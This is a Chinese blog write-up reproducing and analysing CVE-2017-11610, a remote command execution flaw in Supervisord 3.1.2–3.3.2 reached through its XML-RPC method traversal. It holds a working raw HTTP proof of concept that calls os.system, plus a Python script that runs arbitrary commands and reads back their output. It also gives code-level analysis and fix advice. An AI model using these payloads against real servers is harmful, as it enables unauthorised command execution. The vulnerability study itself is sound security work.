










# Supervisord 远程命令执行漏洞（CVE-2017-11610）复现 - Zh1z3ven - 博客园

> 原文：[`www.cnblogs.com/CoLo/p/14176219.html`](https://www.cnblogs.com/CoLo/p/14176219.html)

# Supervisord 远程命令执行漏洞（CVE-2017-11610）复现

文章首发在安全客
[`www.anquanke.com/post/id/225451`](https://www.anquanke.com/post/id/225451)

## 写在前面

因为工作中遇到了这个洞，简单了解后发现正好是 py 的源码，因此想试一下依据前辈的分析做一下简单的代码分析，找到漏洞点。网上已经有很多类似的文章，例如 P 神和绿盟的文章，这里只是自己做一下学习和复现，如有侵权或有问题的地方可以私信或评论。本人会第一时间解决。

## Supervisord 简介

Supervisor 是一个用 Python 写的进程管理工具，可以很方便的用来在 UNIX-like 系统（不支持 Windows）下启动、重启（自动重启程序）、关闭进程（不仅仅是 Python 进程）

Supervisor 是一个 C/S 模型的程序，supervisord 是 server 端，supervisorctl 是 client 端，简单理解就是 client 输入 supervisor 的指令调用 server 端的 API 从而完成一些工作，如进程的管理。

而 Supervisor 的 Web 的服务其实很多人会用的比较多，也就是 supervisord 的客户端，只要路由通，即可远程通过 Web 页面完成类似于 supervisor 的 client 端的操作。而通过 Web 界面的操作由 XML-RPC 接口实现，该漏洞也是出在 XML-RPC 接口对数据的处理上。

本次下载的是 3.3.2 版本的源码

链接：[`pypi.org/project/supervisor/3.3.2/#files`](https://pypi.org/project/supervisor/3.3.2/#files)

**先简单看一下它的配置文件，重点看下面这些部分**

```
[unix_http_server]
file=/tmp/supervisor.sock   ; the path to the socket file
;chmod=0700                 ; socket file mode (default 0700)
;chown=nobody:nogroup       ; socket file uid:gid owner
;username=user              ; default is no username (open server)
;password=123               ; default is no password (open server)

;[inet_http_server]         ; inet (TCP) server disabled by default
;port=127.0.0.1:9001        ; ip_address:port specifier, *:port for all iface
;username=user              ; default is no username (open server)
;password=123               ; default is no password (open server)

[supervisorctl]
serverurl=unix:///tmp/supervisor.sock ; use a unix:// URL  for a unix socket
;serverurl=http://127.0.0.1:9001 ; use an http:// url to specify an inet socket
;username=chris              ; should be same as in [*_http_server] if set
;password=123                ; should be same as in [*_http_server] if set
;prompt=mysupervisor         ; cmd line prompt (default "supervisor")
;history_file=~/.sc_history  ; use readline history if available

; The sample program section below shows all possible program subsection values.
; Create one or more 'real' program: sections to be able to control them under
; supervisor. 
```

server 端监听的是/tmp/supervisor.sock 这个套接字，而 client 端的 serverurl 也是这个套接字，所以 client 端都是通过这个套接字并根据 XML-RPC 协议与 server 端进行的通信。另外，将 `[inrt_http_server]`中前面 `;` 去掉即可开启 Web 服务，默认以 TCP 协议监听在 9001 端口上。（下面不开启用户密码认证，bind 所有网卡）


supervisor 的 web 界面大概长这样。



## 利用条件

漏洞影响范围:
Supervisor version 3.1.2 至 Supervisor version 3.3.2

开启 Web 服务且 9001 端口可被访问

版本在漏洞影响范围内

密码为弱密码或空口令

## 漏洞利用

放上 P 牛的 poc

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 275

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall> 
```

访问页面抓包，cv 这个 poc 进去，根据自己的环境稍作修改之后放包即可。



成功写入文件


wireshark 的包


但是上面版本的 poc 是没有回显的。关于回显 poc 在 vulhub 的官方文档有提到

[`vulhub.org/#/environments/supervisor/CVE-2017-11610/`](https://vulhub.org/#/environments/supervisor/CVE-2017-11610/)

利用方式如下。


poc.py

```
#!/usr/bin/env python3
import xmlrpc.client
import sys

target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):]) 
```

这个点本文就不再重点探究，下面主要复现学习分析一下这个漏洞在代码层面上是如何产生的。

## 漏洞分析

既然知道是 XML-RPC 出了问题，那么通过程序入口点然后一点点去找处理 XML-RPC 请求的函数，看看它是如何实现的。

先看 supervisord 的启动文件 supervisord.py

根据前辈的 poc 是根据 http 请求发送的 payload，所以跟进一下这里的 `self.options.openhttpservers(self)`



在 options.py 中定义了`openhttpservers()`方法



这里调用了 `make_http_servers()`方法，跟进一下

在 ServerOptions 类中定义了`make_http_servers()`方法，可以看到这个方法是从 http.py 中调用的，那么跟进看一下这个方法是如何实现的。


http.py 中定义了 `make_http_servers()`方法



根据漏洞信息，已知是 XML-RPC 调用出现了问题，而 `supervisor_xmlrpc_handler`类就是处理 RPC 调用的，跟进看一下是如何实现的

在 xmlrpc.py 中定义了`supervisor_xmlrpc_handler`类

在此找到了漏洞纰漏的 traverse 方法，在`supervisor_xmlrpc_handler`类中定义了 `call`方法，该方法返回执行完 `traverse(self.rpcinterface, method, params)`函数的结果，



其中在 traverse 函数中传入了 method，params ，跟进一下看看这两个参数是什么。

在`supervisor_xmlrpc_handler`类的 `continue_request`方法中发现 `params, method = self.loads(data)` 跟进下 `loads`方法。



在 xmlrpc.py 的最下面定义了`loads`方法，其将 xml 中的 methodName 和 params 的值分别赋值给了 method 和 params，也就是我们上面漏洞利用过程发送 POST 请求时，POST 请求中 xml 的标签名为 methodName 和 params 这两个标签的值。



比如下图中的`method=supervisor.supervisord.options.warnings.linecache.os.system` 和 `params=touch /tmp/success2` ，正常情况下，`methodName=supervisor.startProcess`，`params=要启动的服务名称`


ok，method 和 params 参数的含义解决了，下面跟进下 traverse 方法。


1、`path = method.split('.')` 以 `.` 作为分隔符对 method 字符串进行切片，切片的结果以列表形式赋值给 path。例如 `supervisor.startProcess` 的结果为 `['supervisor', 'startProcess']`

2、循环 path，如果 name 的值不以 `_` 开头，执行 `ob = getattr(ob, name, None)` , 如果 name 的值是方法名称，会将该方法赋值给 ob。这里的 for 循环就像一个递归，ob 会获取 method 列表中最后一个方法名称并在 try 语句里执行，比如`method=supervisor.supervisord.options.warnings.linecache.os.system()` 那么最后 ob 会获取`system()`并将参数`params`（要执行的命令）带入该方法执行并获取返回结果。

那么问题就出现在这里，在 P 牛的文章中也指出了："官方开发者可能认为可调用的方法只限制在这个对象内部，所以没有做特别严格的白名单限制。" ，导致这里通过 `self.rpcinterface` 对任意的公共方法或递归子对象的公共方法的调用。

比如漏洞的发现者提出的调用链 `self.rpcinterface.supervisor.supervisord.options.execve`，因为这个 poc 使用时存在一些缺陷，P 牛提出了一个其他的利用链（日常膜 P 牛）: `supervisor.supervisord.options.warnings.linecache.os.system()`这边跟一下看看：

首先在 Options 类中调用了 warnings 方法，跟进一下。


emm 这里发现本来在上面直接 import linecache 改到了 try 里面，当时存在漏洞的代码是直接在上面 import linecache 的





跟进 linecache，在 linecache.py 调用 os


这个漏洞与 java 反序列化类似，只要一直寻找有 import os 模块的地方调用 system 函数即可达到执行命令的目的。

## 修复建议

1、升级 supervisor 版本

2、设置端口访问控制

3、设置复杂密码认证

## 参考文章

补上当时忘记贴的参考文章

[`www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html`](https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html)

[`blog.nsfocus.net/supervisord-cve-2017-11610/`](http://blog.nsfocus.net/supervisord-cve-2017-11610/)